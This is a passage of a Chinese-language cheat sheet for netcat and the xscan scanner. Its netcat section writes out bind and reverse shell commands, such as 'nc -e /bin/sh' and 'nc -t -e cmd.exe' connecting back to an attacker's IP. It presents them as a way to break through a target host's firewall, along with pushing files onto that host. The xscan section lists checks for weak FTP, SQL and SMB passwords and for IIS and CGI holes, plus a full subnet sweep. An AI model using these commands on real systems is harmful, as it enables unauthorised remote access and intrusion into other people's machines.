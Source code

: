 `-u` UDP模式
`-v` 详细输出，用-vv将更详细
`-w` 数字 timeout延时间隔
`-z` 将输入，输出关掉（用于扫锚时）
##### 基本用法：
`nc -nvv 192.168.0.1 80 ` 连接到192.168.0.1主机的80端口
`nc -l -p 80` 开启本机的TCP 80端口并监听
`nc -nvv -w2 -z 192.168.0.1 80-1024` 扫锚`192.168.0.1`的`80-1024`端口
`nc -l -p 5354 -t -e c:winntsystem32cmd.exe` 绑定`remote`主机的`cmdshell`在`remote`的`TCP 5354`端口
`nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354` 梆定`remote`主机的`cmdshell`并反向连接`192.168.0.2`的`5354`端口
##### 高级用法：
`nc -L -p 80 `作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
`nc -L -p 80 > c:log.txt` 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
`nc -L -p 80 < c:honeyport.txt` 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
`type.exe c:honeyport | nc -L -p 80 `作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
本机上用：`nc -l -p 本机端口`
在对方主机上用：`nc -e cmd.exe 本机IP -p 本机端口 `
`nc -e /bin/sh 本机IP -p 本机端口 `linux,unix 反向连接突破对方主机的防火墙
本机上用：`nc -d -l -p 本机端口 < 要传送的文件路径及名称`
在对方主机上用：`nc -vv 本机IP 本机端口 > 存放文件的路径及名称 `传送文件到对方主机
>备 注：

`| `管道命令
`< `或` >` 重定向命令。`<`，例如：`tlntadmn < test.txt` 指把test.txt的内容赋值给tlntadmn命令
　　`@` 表示执行`@`后面的命令，但不会显示出来（后台执行）；例：`@dir c:winnt >> d:log.txt` 意思是：后台执行`dir`，并把结果存在`d:log.txt`中
　　`>`与`>>`的区别 `>`指：覆盖；`>>`指：保存到(添加到）。
　　如：`@dir c:winnt >> d:log.txt`和`@dir c:winnt > d:log.txt`二个命令分别执行二次比较看：用`>>`的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

###  扫描工具：xscan.exe

#### 基本格式
---
`xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] `扫锚"起始IP到终止IP"段的所有主机信息
`xscan -file <主机列表文件名> <检测项目> [其他选项] `扫锚"主机IP列表文件名"中的所有主机信息
##### 检测项目
`-active` 检测主机是否存活
`-os` 检测远程操作系统类型（通过NETBIOS和SNMP协议）
`-port` 检测常用服务的端口状态
`-ftp` 检测FTP弱口令
`-pub` 检测FTP服务匿名用户写权限
`-pop3` 检测POP3-Server弱口令
`-smtp` 检测SMTP-Server漏洞
`-sql` 检测SQL-Server弱口令
`-smb` 检测NT-Server弱口令
`-iis` 检测IIS编码/解码漏洞
`-cgi` 检测CGI漏洞
`-nasl` 加载Nessus攻击脚本
`-all` 检测以上所有项目
_其它选项:_
`-i` 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
`-l` 显示所有网络适配器
`-v` 显示详细扫描进度
`-p` 跳过没有响应的主机
`-o` 跳过没有检测到开放端口的主机
`-t` 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
`-log` 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
##### 用法示例
`xscan -host 192.168.1.1-192.168.255.255 -all -active -p　`检测`192.168.1.1-192.168.255.255`网段内主机的所有漏洞，跳过无响应的主机